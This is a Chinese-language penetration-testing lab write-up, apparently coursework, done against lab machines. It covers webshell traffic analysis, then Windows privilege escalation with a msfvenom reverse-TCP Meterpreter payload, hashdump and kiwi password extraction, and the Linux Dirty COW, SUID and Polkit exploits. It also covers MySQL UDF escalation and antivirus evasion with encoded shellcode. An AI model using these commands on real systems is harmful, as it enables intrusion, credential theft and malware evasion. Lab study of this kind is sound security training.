





# 一、网络层面后门分析：通过蚁剑进行攻击并监听流量提取攻击特征。
## 1. 环境准备
* win7   
* phpstudy   
* dvwa   
   

## 2. 流量监听工具   
* wireshark   
   
## 3. 从攻击中流量中提取攻击特征
### 3.1 上传一句话木马，并用蚁剑连接
   
   
### 3.2 启动`wireshark`   
   
选择对应的网卡,在过滤栏中输入需要过滤的请求。   
```shell
 ip.dst==192.168.228.150 && http
```   
   
右键，追踪数据流。   
   
   
复制其中的请求体，进行解码分析。   
```text
# 异常特征
{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}\
# 异常特征
{@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);
```
从上面异常流量中的攻击特征可以看出，他访问了操作系统目录，调用了威胁函数:`passthru`、`system`、`shell_exec`。所以这个可以认定为异常流量。
# 二、Windows 提权实战，请使用除 ms15-051 以外的其他的 exp 进行攻击提权。   
## 1. getShell
   
## 2. 收集信息
```shell
 systeminfo
```
    
通过补丁信息，可以了解某些漏洞是否已经被修复了，从而避开已修复漏洞的攻击。
## 3. 使用msf制作一个exe后门程序
```shell
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.228.129 LPORT=5555 -f exe -o 5555.exe
```   
ip为kali的ip   
   
## 4. 使用蚁剑上传制作好的 `5555.exe`
    

## 5. 打开kali的监听
```shell
 use exploit/multi/handler
 set Payload windows/x64/meterpreter/reverse_tcp
 # kali的ip
 set lhost 192.168.228.129
 set lport 5555
 exploit
```   
   
## 6. 通过蚁剑的虚拟终端，运行上传的 `5555.exe`文件
```shell
 5555.exe
```
   
## 7. 查看kali
   
获得`meterpreter`。   
## 8. 查看当前用户
```shell
 getuid
```
   
将会话保存在后台。   
```shell
 background
```   
    
使用`sessions`查看会话。   
```shell
 sessions
```
   
## 9. 查看系统补丁信息
进入 `meterpreter`。   
```shell
 sessions -i 1
```

```shell
 run post/windows/gather/enum_patches
```
   
需要kali进行信息收集之后，下一步查询哪些提权的exp可用。   
```shell
 run post/multi/recon/local_exploit_suggester
```   
   
绿色的代表可用。保持会话，选择 `ms16_075`。   
```shell
 background
```   
## 10. 提权
```shell
 use ms14_058_track_popup_menu
 options
 set SESSION 1
 set LHOST 192.168.228.129
 set payload windows/x64/meterpreter/reverse_tcp
 exploit
```   
   
   
查看当前用户
```shell
 getuid
```   
   
成功获取到SYSTEM。接下来获取管理员密码。   
```shell
 run hashdump
```   
运行出错。   
   
使用 `kiwi`。   
```shell
 load kiwi
```   
   
列举系统明文密码。
```shell
 creds_all
```
   
成功获取到系统登录密码。   
* 过程中遇到的问题：   
```text
 提权失败，getuid 总是 win7 普通用户。
 经过查看，未开启管理员用户，激活管理员用户之后，成功提权。
```
# 三、Linux 提权实战：脏牛提权、SUID 提权、Polkit 提权实验。
## 1. 脏牛提权
### 1.1 漏洞简介
CVE-2016-5195，即 Dirty COW，俗称「脏牛」漏洞。它是 Linux Kernel 中的条件竞争漏洞，攻击者可以利用Linux Kernel 中的 COW（Copy-on-Write）技术中存在的逻辑漏洞完成对文件的越权读写，恶意用户可利用此漏洞来获取高权限。
### 1.2 影响版本   
自2007年9月 Linux Kernel 2.6.22 被引入，直到2018年Linux Kernel 4.8.3, 4.7.9, 4.4.26 之后才被彻底修复，影响在此期间的所有基于其中版本范围的Linux发行版。
### 1.3 漏洞实验
下载 `Metasploitable-2`
```url
 https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
```   
虚拟机中安装镜像，并登录。
```text
 账号：msfadmin
 密码：msfadmin
```   
   
上传exp `dirty.c`，输入下面指令编译。
```shell
 gcc -pthread dirty.c -o dirty -lcrypt
```
   
进行提权。   
```shell
 ./dirty root
```   
   
查看用户信息。   
```shell
 cat /etc/passwd
```
   
多了一个 `firefart` 用户。切换到`firefart`用户。
```shell
 su firefart
```
   
我们看到，拥有了`root`权限。提权成功。
## 2. SUID提权   
### 2.1 简介
SUID是Linux的一种权限机制，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。如果拥有SUID权限，那么就可以利用系统中的二进制文件和工具来进行root提权。
### 2.2 环境
```shell
 docker pull docker.io/citizenstig/dvwa
```
### 2.3 实战
查看拥有S权限的文件。
```shell
 find / -user root -perm -4000 -print 2>/dev/null 
 find / -perm -u=s -type f 2>/dev/null 
 find / -user root -perm -4000 -exec ls -ldb {} \;
```  
    
添加S权限。
```bash
 chmod u+s /usr/bin/find
```
   
应用 `find` 进行提权。   
```bash
 find / -name post_a.php -exec "whoami" \;
```   
   
成功提权。
## 3. Polkit提权
### 3.1 简介
`polkit`：是用于在类 Unix 操作系统中控制系统范围特权的组件，它为非特权进程提供了与特权进程进行通信的方式。   
`CVE-2021-4034`：Polkit 的 pkexec 存在本地权限提升漏洞，已获得普通权限的攻击者可通过此漏洞获取root权限。   
### 3.2 环境
```bash
 docker pull docker.io/chenaotian/cve-2021-4034
```   
### 3.3 实战
上传exp文件。(镜像中已有)   
```bash
 cd ~/exp/CVE-2021-4034
```
   
运行。   
```bash
 ./run.sh
```   
   
运行前，先切换为普通用户。   
```bash
 su test
```
   
运行 `exp`。   
```bash
 ./exp
```
mac 下运行会报错。   
   
使用linux系统运行。   

# 四、数据库提权：UDF 提权实验。   
## 1. 简介
`UDF`: UDF（user-defined function）是MySQL的一个拓展接口，也可称之为用户自定义函数，它是用来拓展MySQL的技术手段，可以说是数据库功能的一种扩展。用户通过自定义函数来实现在MySQL中无法方便实现的功能，其添加的新函数都可以在SQL语句中调用，通过添加命令执行函数可以执行系统命令，从而进行提权。   
```text
 原理：用户自定义的函数被当作本机函数执行，在使用CREATE FUNCITON调用dll中的函数后，mysql账号转化为system权限，从而实现提权。
```
## 2. 实战
通过漏洞获取一个`webShell`.   
   
查看当前用户。   
   
查看数据库的账号和密码。   
```text
 WWW/DVWA/config/config.inc.php
```
   
连接远程数据库，为了实验，先打开远程连接。   
```mysql
 grant all privileges on *.* to "root"@"%" identified by "root";
```
   
查看系统位数。   
```mysql
 show variables like '%compile%';
```
   
查看插件路径。   
```mysql
 show variables like '%plugin%';
 -- C:\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\
```   
   
查看安全配置。   
```mysql
 show variables like '%secure%';
```
   
配置 `secure_file_priv` 选项。   
   
   
重启mysql。再次查看该配置。    
   
使用sqlmap制作文件。   
```shell
 # .dll 文件位置
 /usr/local/Cellar/sqlmap/1.7/libexec/data/udf/mysql/windows/64
 # cloak.py 位置
 /usr/local/Cellar/sqlmap/1.7/libexec/extra/cloak
```   
使用 `cloak.py` 解码。   
```shell
 python cloak.py -d -i /usr/local/Cellar/sqlmap/1.7/libexec/data/udf/mysql/windows/64/lib_mysqludf_sys.dll_
```   
   
将`dll`文件上传至 `C:\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\`，目录不存在，就新建该目录   
   
   
   
创建 `sys_eval`函数，进行提权。   
```mysql
 create function sys_eval returns string soname 'lib_mysqludf_sys.dll';
```
   
使用创建好的 `sys_eval` 函数，进行提权。   
```mysql
 select sys_eval('whoami');
```
   
获取到了启动当前站点的系统用户权限。   
# 五、免杀：MSF 编码器结合 shellcode 加载器进行免杀实验。
下载`shellcode`加载器。
```text
 # 下载地址
 https://github.com/crow821/crowsec/tree/master/BypassAV_360_huornog
```   
利用编码器生成图片。   
```
 msfvenom -p windows/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 7 -b '\x00' lhost=192.168.228.129 lport=5554 -f raw -o crowsec.jpg
```   
   
查看生成的图片的免杀效果：   
```text
 https://www.virustotal.com/gui/home/upload
```   
60个杀毒引擎中，21个报毒。   
   
查看`shellcode`加载器的免杀效果：
72个杀毒引擎中，只有10个报毒。   
   
使用msf启动监听。   
   
利用蚁剑，上传 `shellcode` 和生成的 `crowsec.jpg`。   
   
执行 `shellcode` 程序。   
   
需要将 dll 文件放置到 `c:\Windows\SysWOW64` 下。   
   
再次运行 `shellcode` 程序。成功获得`meterpreter`。   

